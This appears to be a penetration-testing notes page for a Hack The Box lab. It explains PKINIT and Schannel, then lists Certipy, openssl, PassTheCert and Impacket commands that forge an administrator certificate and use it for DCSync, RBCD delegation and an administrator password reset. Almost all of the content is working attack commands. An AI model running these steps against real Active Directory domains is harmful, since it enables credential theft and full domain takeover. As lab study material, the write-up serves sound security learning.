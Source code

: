 ```yaml
---
description: Kerberos extension that allows users to authenticate using X.509 certificates
---
```


# PKINIT

### <mark style="color:yellow;">PKINIT and Kerberos Authentication</mark>

PKINIT is an extension for Kerberos Protocol to enable public key cryptography for authentication. Kerberos uses symmetric key crypto so a client and KDC share a key. PKINIT allows to authenticate using a public key which is more secure.

{% hint style="info" %}
`PKINIT` utilizes `X.509 certificates` issued by `ADCS` to support public key crypto during authentication. ADCS issues certificates to clients in the PKINIT process, allowing them to use public-private key pairs.
{% endhint %}

### <mark style="color:yellow;">Secure Channel (Schannel) Authentication</mark>

`Schannel`, Window's security support provider for `TLS/SSL connections`. It handles client authentication using certificates. When a client connects, the server requests a certificate to verify identity, it client has a trusted CA-issued certificate the servers grants access.

Schannel tries to link credentials to a user using Kerberos S4U2Self, if that fails it checks other methods like MS-RCMP. By default, only a few protocols in Active Directory support Schannel authentication, such as **WinRM, RDP, and IIS** (with extra setup).

#### Start with adding a computer

```sh
addcomputer.py 'authority.htb/blwasp':'Password123!' -method LDAPS -computer-name 'HTB01$' -computer-pass 'MyPassword123!' -dc-ip 10.129.229.56
```

#### Request certificate with alternative SAN

```shell-session
certipy req -u 'HTB01$' -p 'MyPassword123!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb
```

#### Authenticate

```sh
$ certipy auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This `ADCS server` does not support `PKINIT` causing the error.&#x20;

## PassTheCert

Extract the private key from .pfx, needs a value form pem phrase.

```sh
openssl pkcs12 -in administrator.pfx -nocerts -out administrator.key
```

Extract the public key from .pfx&#x20;

```shell-session
openssl pkcs12 -in administrator.pfx -clcerts -nokeys -out administrator.crt
```

Remove passphrase and write RSA

```shell-session
openssl rsa -in administrator.key -out administrator-nopass.key
```

### <mark style="color:yellow;">DCSync</mark>

```sh
# Passthecert grant rights
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action modify_user -target blwasp -elevate

# DCSync
secretsdump.py 'authority.htb/blwasp':'Password123!'@10.129.229.56
```

### <mark style="color:yellow;">RBCD</mark>

```sh
# Create new computer
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action add_computer -computer-name 'HTB02$' -computer-pass AnotherComputer002

# Add delegation rights
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'HTB02$'

# Get TGT
getST.py -spn 'cifs/authority.authority.htb' -impersonate Administrator 'authority.htb/HTB02$:AnotherComputer002'

# Authenticate
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass authority.authority.htb
```

### <mark style="color:yellow;">Password Reset</mark>

```sh
# Password Reset
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action modify_user -target administrator -new-pass HackingViaLDAPS001

# Authenticate
wmiexec.py administrator:HackingViaLDAPS001@10.129.229.56
```



